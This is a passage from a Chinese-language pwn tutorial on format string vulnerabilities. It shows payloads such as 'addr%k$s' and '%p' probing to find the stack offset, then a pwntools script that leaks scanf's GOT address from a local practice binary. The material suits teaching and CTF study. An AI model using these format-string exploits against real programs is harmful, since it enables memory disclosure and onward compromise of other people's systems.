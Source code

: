格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的（因为是某个函数的局部变量，本例中 s 是 main 函数的局部变量）。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。

那么由于我们可以控制该格式化字符串，如果我们知道该格式化字符串在输出函数调用时是第几个参数，这里假设该格式化字符串相对函数调用为第 k 个参数。那我们就可以通过如下的方式来获取某个指定地址 addr 的内容。

`
addr%k$s
`

下面就是如何确定该格式化字符串为第几个参数的问题了，我们可以通过如下方式确定`[tag]%p%p%p%p%p%p...`

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594800922813-48e366db-36c5-4865-9a4f-b35bda66d56e.png)

由 0x41414141 处所在的位置可以看出我们的格式化字符串的起始地址正好是输出函数的第 5 个参数，但是是格式化字符串的第 4 个参数。

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594800965173-5c5efed2-bfd4-4db5-a9a9-ed41ad5218d2.png)

通过传入got表地址，程序就会把got真实地址打印出来：



```python
from pwn import *
sh = process('./leakmemory')
leakmemory = ELF('./leakmemory')
__isoc99_scanf_got = leakmemory.got['__isoc99_scanf']
print hex(__isoc99_scanf_got)
payload = p32(__isoc99_scanf_got) + '%4$s'
print payload
gdb.attach(sh)
sh.sendline(payload)
sh.recvuntil('%4$s\n')
print hex(u32(sh.recv()[4:8])) # remove the first bytes of __isoc99_scanf@got
sh.interactive()
```

**其中，我们使用 gdb.attach(sh) 来进行调试。**

当我们运行到第二个 printf 函数的时候 (记得下断点)，可以看到我们的第四个参数确实指向我们的 scanf 的地址

**![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594801307465-fb5e9d57-ef86-4b49-807e-d5d4031f6356.png)**

同时，在我们运行的 terminal 下

**![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594801346425-25a0c1fa-26cc-4af8-9ae2-673554a30f98.png)**

**![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594801508315-1da4da0c-5116-49fd-b338-b322b4d66ccf.png)![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594801517273-b0e6b0f7-2548-4bab-bbf7-ba7991ec5409.png)**

我们确实得到了 scanf 的地址。

但是，并不是说所有的偏移机器字长的整数倍，可以让我们直接相应参数来获取，有时候，我们需要对我们输入的格式化字符串进行填充，来使得我们想要打印的地址内容的地址位于机器字长整数倍的地址处，一般来说，类似于下面的这个样子。

`
[padding][addr]
`
